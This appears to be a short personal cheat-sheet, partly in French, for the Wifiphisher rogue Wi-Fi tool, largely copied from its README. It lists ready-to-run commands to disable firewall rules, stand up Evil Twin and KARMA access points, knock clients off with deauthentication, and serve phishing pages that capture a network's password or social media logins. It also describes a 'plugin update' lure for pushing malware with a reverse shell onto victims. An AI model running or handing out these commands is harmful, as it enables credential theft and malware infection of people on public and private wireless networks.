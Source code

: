 # wifiphisher


* [Wifiphisher](https://github.com/wifiphisher/wifiphisher)


Purger iptables avant lancement:

```sh
sudo iptables -X
sudo iptables -F
sudo iptables -P INPUT ACCEPT
sudo iptables -P FORWARD ACCEPT
sudo iptables -P OUTPUT ACCEPT
sudo wifiphisher 
```

## rogue AP avec 1 interface:

```sh
$ sudo wifiphisher -aI wlan0 -nE -p firmware-upgrade
```

## personnaliser l'attaque:

```sh
$ sudo wifiphisher -aI wlan0 -nE -p firmware-upgrade -pPD .
```

Run the tool by typing wifiphisher or python bin/wifiphisher (from inside the tool's directory).
By running the tool without any options, it will find the right  interfaces and interactively ask the user to pick the ESSID of the  target network (out of a list with all the ESSIDs in the around area) as  well as a phishing scenario to perform. By default, the tool will  perform both Evil Twin and KARMA attacks.

```sh
wifiphisher -aI wlan0 -jI wlan4 -p firmware-upgrade --handshake-capture handshake.pcap
```

Use wlan0 for spawning the rogue Access Point and wlan4 for DoS  attacks. Select the target network manually from the list and perform  the "Firmware Upgrade" scenario. Verify that the captured Pre-Shared Key  is correct by checking it against the handshake in the handshake.pcap  file.
Useful for manually selecting the wireless adapters. The "Firmware Upgrade" scenario is an easy way for obtaining the PSK from a password-protected network.

```sh
wifiphisher --essid CONFERENCE_WIFI -p plugin_update -pK s3cr3tp4ssw0rd
```

Automatically pick the right interfaces. Target the Wi-Fi with ESSID  "CONFERENCE_WIFI" and perform the "Plugin Update" scenario. The Evil  Twin will be password-protected with PSK "s3cr3tp4ssw0rd".
Useful against networks with disclosed PSKs (e.g. in conferences). The "Plugin Update"  scenario provides an easy way for getting the victims to download  malicious executables (e.g. malwares containing a reverse shell  payload).

```sh
wifiphisher --essid "FREE WI-FI" -p oauth-login -kB
```

Simply spawn an open Wi-Fi network with ESSID "FREE WI-FI" and  perform the "OAuth Login" scenario. Furthermore, mount the "Known  Beacons" Wi-Fi automatic association technique.
Useful against victims in public areas. The "OAuth Login" scenario provides a simple way for capturing credentials from social networks, like Facebook.
Following are all the options along with their descriptions (also available with wifiphisher -h):

## création de page:

copier les pages sous: `/usr/lib/python2.7/dist-packages/wifiphisher/data/phishing-pages/`

copier un dossier: reprendre les page et le fichier `config.ini`

appeller par le nom (dans le config.ini) avec l'option `-p`


